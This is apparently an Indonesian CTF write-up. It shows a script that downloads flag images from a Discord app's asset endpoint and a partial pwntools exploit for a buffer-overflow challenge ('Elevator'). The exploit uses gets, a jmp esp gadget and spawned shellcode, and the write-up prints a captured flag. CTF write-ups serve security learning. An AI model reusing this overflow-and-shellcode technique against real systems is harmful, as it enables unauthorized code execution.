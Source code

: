 Kami membuat script python untuk mendapatkan setiap file flag tersebut.

```py
import requests

ASSETS = "https://discordapp.com/api/oauth2/applications/1233467180696207390/assets"
CDN_URL = "https://cdn.discordapp.com/app-assets/1233467180696207390/"

def getAssets(url=ASSETS):
    r = requests.get(url)
    return r.json()

def getFileIDByName(name, data):
    for asset in data:
        if asset['name'] == name:
            return asset['id']

def downloadFileByID(filename, savefile, cdn=CDN_URL):
    url = cdn + filename
    r = requests.get(url)
    with open(savefile, 'wb') as f:
        f.write(r.content)

data = getAssets()
for i in range(0, 20):
    filename = getFileIDByName("flag_" + str(i), data) + ".png"
    downloadFileByID(filename, savefile="result/flag_" + str(i) + ".png")
```

![alt_text](images/neobim-4.png "image_tooltip")

**Flag: FindITCTF{n30Vim_i5_Aw3SoM3!!!}**

# Binary Exploitation (PWN)

## Elevator (907 pts)

Binary dengan vulnerability buffer overflow karena input menggunakan **gets** dengan tidak ada mitigasi apapun. Lalu terdapat gadget **jmp esp** yang bisa digunakan untuk _jump_ ke shellcode yang kita buat.

```py
#!/usr/bin/env python3

from pwn import *

PATH = './admin'

HOST = '103.191.63.187'
PORT = 5000

def exploit(r):
    payload  = b'A' * 0x40C
    payload += p32(0x08049199) # jump esp
    payload += asm(shellcraft.sh())

    r.recvlines(2)
    r.sendline(payload)

```